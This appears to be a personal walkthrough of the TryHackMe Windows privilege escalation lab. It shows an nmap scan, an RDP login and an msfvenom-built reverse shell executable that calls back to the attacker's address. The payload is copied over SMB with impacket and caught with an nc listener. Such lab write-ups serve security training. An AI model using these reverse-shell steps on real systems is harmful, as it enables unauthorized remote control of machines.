

# Window Privilege Escalation

https://tryhackme.com/room/windows10privesc

## 1. Reverse shell via RDP

nmap - 3389 rdp is open
```
kali@kali:~/thm/windowsPrivesc$ nmap 10.10.43.60
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-27 06:36 EDT
Nmap scan report for 10.10.43.60
Host is up (0.26s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 21.13 seconds
```

Connect to rdp - `xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.43.60`



Create reverse shell executable
```
kali@kali:~/thm/windowsPrivesc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.88.232 LPORT=53 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```

Use SMB to transfer the executables
```
kali@kali:~/thm/windowsPrivesc$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
[sudo] password for kali:                                                                                                                                                                                    
Impacket v0.9.23.dev1+20210422.174300.cb6d43a6 - Copyright 2020 SecureAuth Corporation                                                                                                                       
                                                                                                                                                                                                             
[*] Config file parsed                                                                                                                                                                                       
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0                                                                                                                                       
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
```

Copy over on Windows RDP
```
C:\Users\user>copy \\10.9.88.232\kali\reverse.exe C:\PrivEsc\reverse.exe
        1 file(s) copied.
```

Set up nc listener
```
kali@kali:~$ sudo nc -nvlp 53
[sudo] password for kali: 
listening on [any] 53 ...
```

Run the executable
```
C:\Users\user>C:\PrivEsc\reverse.exe
```

We receive reverse shell
```
kali@kali:~$ sudo nc -nvlp 53
[sudo] password for kali: 
listening on [any] 53 ...
connect to [10.9.88.232] from (UNKNOWN) [10.10.43.60] 49786
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\user>whoami
whoami
win-qba94kb3iof\user

C:\Users\user>

```
